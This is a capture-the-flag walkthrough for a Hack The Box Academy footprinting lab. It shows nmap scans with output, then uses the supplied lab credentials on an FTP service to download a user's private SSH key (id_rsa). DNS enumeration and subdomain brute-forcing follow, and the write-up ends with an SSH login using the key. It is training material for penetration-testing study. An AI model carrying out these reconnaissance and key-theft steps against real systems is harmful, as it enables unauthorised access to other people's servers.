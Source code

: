 # Footprinting Lab - Easy  

[Footprinting Lab - Easy](https://academy.hackthebox.com/module/112/section/1078)  

>We were commissioned by the company `Inlanefreight` Ltd to test three different servers in their internal network. 
>The first server is an internal DNS server that needs to be investigated. 
>The client wants to know what information we can get out of these services and how this information could be used against its infrastructure. 
>Goal is to gather as much information as possible about the server and find ways to use that information against the company. 
>However, our client has made it clear that it is forbidden to attack the services aggressively using exploits, as these services are in production.  
  
>Additionally, our teammates have found the following credentials `ceil:qwer1234`,
>and they pointed out that some of the company's employees were talking about SSH keys on a forum.  

>The administrators have stored a `flag.txt` file on this server to track our progress and measure success.  

## Enumeration  

>NMAP Scans and results:  

```
sudo nmap 10.129.53.210                                        

PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
53/tcp   open  domain
2121/tcp open  ccproxy-ftp
```  

>NMAP Service, Version , OS and default scripts scan results:  

```
sudo nmap -p 21,22,53,2121 -sCV -A -O 10.129.53.210             

PORT     STATE SERVICE      VERSION
21/tcp   open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (ftp.int.inlanefreight.htb) [10.129.53.210]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp   open  ssh          OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
|   256 7b:30:37:67:50:b9:ad:91:c0:8f:f7:02:78:3b:7c:02 (ECDSA)
|_  256 88:9e:0e:07:fe:ca:d0:5c:60:ab:cf:10:99:cd:6c:a7 (ED25519)
53/tcp   open  domain       ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
2121/tcp open  ccproxy-ftp?
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (Ceil's FTP) [10.129.53.210]
```  

>Observe that port `2121` PrFTPD service read comment about `Ceil` FTP.  

### FTP

>Secure [FTP](https://academy.hackthebox.com/module/112/section/1066) service enumeration with provided `Ceil` credentials.

```
openssl s_client -connect 10.129.53.210:21 -starttls ftp

ftp 10.129.53.210 2121

ls -al
cd .ssh
get id_rsa
```  

### DNS

>[Domain Name System - DNS](https://academy.hackthebox.com/module/112/section/1069) Footprinting and enumeration.  

```
dig ns inlanefreight.htb @10.129.53.210
```  

>Subdomain DNS Brute Forcing.  

```
dnsenum --dnsserver 10.129.53.210 --enum -p 0 -s 0 -f /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt inlanefreight.htb
```  

## Foothold  

>SSH as the user `Ceil` with their discovered `id_rsa` key file from the FTP service on port `2121`.  

```
chmod 600 ceil-ssh.txt

ssh ceil@10.129.53.210 -i ceil-ssh.txt
```  


